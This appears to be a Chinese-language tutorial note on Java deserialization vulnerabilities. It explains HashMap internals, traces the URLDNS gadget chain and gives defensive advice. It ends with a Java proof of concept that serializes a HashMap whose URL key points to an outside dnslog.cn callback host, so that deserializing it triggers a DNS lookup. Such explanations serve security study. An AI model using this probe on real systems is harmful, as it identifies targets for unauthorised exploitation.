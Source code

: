 
### 分析总结
- **反序列化漏洞核心**：攻击者通过构造恶意序列化数据，利用目标系统中存在的危险方法调用链（如重写的`readObject`、第三方类的方法链），触发远程代码执行或敏感操作。  
- **防御建议**：避免反序列化不可信数据；使用白名单限制可反序列化的类；重写`readObject`时严格校验输入；升级依赖库以修复已知漏洞（如FastJson、Jackson的安全更新）。

在Java中，`HashMap`是一个常用的哈希表实现，用于存储键值对（Key-Value）映射，基于`Map`接口实现。它的特点是查询、插入、删除操作的平均时间复杂度为O(1)，但在反序列化场景中，其内部实现可能引入安全风险。

### HashMap补充


### 1. `HashMap`的基本特性
- **存储结构**：基于数组（哈希桶）和链表/红黑树实现。当链表长度超过阈值（默认8）时，会转为红黑树以优化查询效率。
- **哈希计算**：通过键（Key）的`hashCode()`方法计算哈希值，再通过扰动函数（减少哈希冲突）确定数组索引。
- **序列化支持**：`HashMap`实现了`Serializable`接口，支持序列化和反序列化。


### 2. `HashMap`的反序列化安全问题
`HashMap`的反序列化风险源于其重写的`readObject`方法。在反序列化时，`readObject`会被自动调用，进而触发一系列内部逻辑，可能被攻击者利用构造恶意调用链（Gadget Chain）。

#### 关键调用链分析：
以`URLDNS`漏洞为例（参考文件中案例），其利用链如下：
```
HashMap.readObject() → HashMap.putVal() → HashMap.hash() → URL.hashCode()
```
- **`readObject`方法**：`HashMap`重写了`readObject`，反序列化时会将保存的键值对重新插入哈希表（调用`putVal`）。
- **`putVal`方法**：插入键值对时，会调用`hash(key)`计算键的哈希值。
- **`hash`方法**：会调用键的`hashCode()`方法。
- **`URL.hashCode()`**：`URL`类的`hashCode()`方法在计算哈希值时，会尝试解析URL并建立网络连接（如DNS查询）。

#### 漏洞利用：
攻击者可构造一个包含恶意`URL`的`HashMap`对象并序列化，当目标反序列化该对象时，会自动触发`URL.hashCode()`，导致远程DNS查询（可用于探测漏洞），若存在更危险的方法调用，则可能实现远程命令执行（RCE）。


### 3. 代码示例（文件中案例）
```java
import java.io.*;
import java.net.URL;
import java.util.HashMap;

public class UrLDns implements Serializable {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        // 创建HashMap并放入恶意URL
        HashMap<URL, Integer> hash = new HashMap<>();
        URL u = new URL("http://vnq09p.dnslog.cn"); // 触发DNS查询的URL
        hash.put(u, 1);

        // 序列化HashMap到文件
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("dns.txt"));
        oos.writeObject(hash);
        oos.close();

        // 反序列化时触发漏洞
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream("dns.txt"));
        ois.readObject(); // 反序列化过程中自动调用HashMap.readObject()
        ois.close();
    }
}
```
- 序列化时，`HashMap`的键值对（含`URL`）被写入文件。
- 反序列化时，`HashMap.readObject()`执行，触发`URL.hashCode()`，导致对`http://vnq09p.dnslog.cn`的DNS查询，可通过DNS日志验证漏洞触发。
